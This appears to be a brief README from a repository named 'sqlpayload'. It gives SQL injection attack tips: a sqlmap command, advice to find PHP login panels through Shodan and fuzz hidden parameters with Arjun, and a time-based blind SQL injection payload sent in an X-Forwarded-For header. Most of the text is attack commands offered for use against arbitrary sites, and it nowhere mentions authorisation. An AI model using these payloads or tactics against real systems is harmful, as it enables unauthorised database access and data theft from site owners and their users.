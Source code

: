 # sqlpayload

* sqlmap.py -u “<URL>” --batch --banner

* On login / php website try sqli payloads 

* Use shodan for IP based login panels - try sqli

* always try sql injcetion on php site .php ending url guess hidden param with Arjun and try to perform there

* mostly try on hidden param finded with Arjun so try to guess more hidden param as possible throw fuzzing etc

* Bug : Blind SQL Injection
Tips : X-Forwarded-For: 0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z
